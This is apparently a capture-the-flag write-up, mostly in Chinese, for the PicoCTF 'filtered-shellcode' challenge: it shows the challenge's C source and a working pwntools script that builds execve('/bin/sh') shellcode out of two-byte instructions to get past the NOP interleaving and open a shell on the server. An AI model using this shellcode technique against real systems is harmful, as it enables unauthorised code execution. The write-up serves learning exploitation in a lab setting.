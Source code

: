 # PicoCTF - filtered-shellcode
## Background
Shell Code
Reverse
## Source code
:::spoiler Source Code Got From Server After Get Shell
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
:::
## Recon
這一題沒有很難，但我沒有解出來，主要是因為reverse看不懂，完了QAQ，IDA都亂翻，只能求助於[^pico_pwn_filtered_shellcode_wp]，其實很簡單，好像也沒有filter的成分在，如果限制只能用每次兩bytes寫shell code不算的話
1. 其實就兩個function，一個是main function，另外一個是execute function，execute function主要會每一個shell code中間插入兩個nop，然後用function pointer的方式執行，所以我們的目標是寫一個shell code script開server的shell
2. 重點是shell code的instruction只能用2 bytes的instruction，所以沒辦法用類似`mov eax, 0x6e69622f`的這種方式，會GG，原因出自於execute function的for loop，他會把我們寫的shell code用2 bytes的方式切開，然後中間塞兩個nop(也就是兩個\x90，也是兩個bytes)，所以這其實就是限制我們只能用2 bytes寫shell code
    ```cpp!
    if ((i % 4) < 2) {result[i] = shellcode[spot++];}
    else {result[i] = '\x90';}
    ```
4. 所以不能隨便用exploit db上找到的shell code複製貼上，或是用以下payload，必須要善用`shl`，只要shl 16次(也就是2 bytes)就可以同時方式0x6e69622f，效果和`mov eax, 0x6e69622f`一樣
    ```asm!
    payload = asm("""
        mov eax, 0x6e69622f
        push eax
        mov eax, 0x0068732f
        push eax
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov eax, 0xb
        lea ebx, DWORD PTR [esp]
        int 0x80
    """)
    ```
## Exploit - Write Properly Shell Code
```python!
from pwn import *

r = process('./fun')
# r = remote('mercury.picoctf.net', 35338)
r.recvline()

payload = asm("""
    /*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
""")
r.sendline(payload)

r.interactive()
```
## Reference
[^pico_pwn_filtered_shellcode_wp]:[PicoCTF - Filtered Shellcode [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df)